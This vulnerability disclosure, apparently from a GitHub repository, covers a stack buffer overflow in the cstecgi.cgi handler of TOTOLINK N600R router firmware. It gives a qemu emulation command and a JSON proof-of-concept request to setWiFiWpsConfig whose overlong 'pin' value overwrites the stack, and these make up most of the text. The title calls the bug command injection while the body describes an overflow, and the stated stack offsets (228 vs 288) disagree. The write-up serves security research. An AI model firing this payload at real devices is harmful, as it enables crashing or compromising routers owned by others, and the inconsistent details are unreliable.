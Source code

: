 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-command injection

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## stack overflow point 0x41ca08

At 41ca08 in function FUN_0041c824, the strncpy function is called, which poses a risk of buffer overflow.
 
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41ca08_poc.json
```
### json
```json
{
	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111llllllllllllllllllllabcdDOIT"
}
```

### Operation Results
When checking the current function return, the return value will be taken from $sp+228. After running strncpy, it is found that the value at $sp+288 has been overwritten with "DOIT".
![enter image description here](https://i.miji.bid/2025/05/07/42f9bdbfef870ad5d89a99d89a4fd4f4.png)



